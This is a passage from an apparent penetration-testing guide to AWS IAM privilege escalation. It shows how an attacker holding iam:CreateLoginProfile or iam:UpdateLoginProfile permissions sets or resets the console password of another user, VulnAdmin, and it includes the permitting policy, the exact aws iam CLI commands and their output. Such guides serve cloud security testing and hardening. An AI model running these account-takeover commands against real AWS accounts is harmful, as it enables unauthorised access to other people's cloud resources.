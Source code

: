 The target user currently does not have a console login password configured. The attacker can issue the following command to set a console login password for the target user:

```bash
➜ aws iam create-login-profile --user-name VulnAdmin --password Password123! --no-password-reset-required --profile privesc
```

```json
{
    "LoginProfile": {
        "UserName": "VulnAdmin",
        "CreateDate": "2019-03-26T20:20:14Z",
        "PasswordResetRequired": false
    }
}
```

The attacker can now log into the console as the VulnAdmin user with the password that they set for the account.

## 06 - iam:UpdateLoginProfile


### Description
Users with the iam:UpdateLoginProfile on other users can change the console login password for those users.

### Requirements
The user needs to have the permission on other users.
The target user needs to have a console login password currently configured.
### Example
In this example, our attacker is part of a single group. The group has one permission, which allows iam:UpdateLoginProfile on a single user VulnAdmin:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "VisualEditor0",
      "Effect": "Allow",
      "Action": "iam:UpdateLoginProfile",
      "Resource": "arn:aws:iam::[REDACTED]:user/VulnAdmin"
    }
  ]
}
```

The target user currently has a console password configured. The attacker can issue the following command to change the console login password for the target user:

```bash
➜ aws iam update-login-profile --user-name VulnAdmin --password Password234! --no-password-reset-required --profile privesc
```
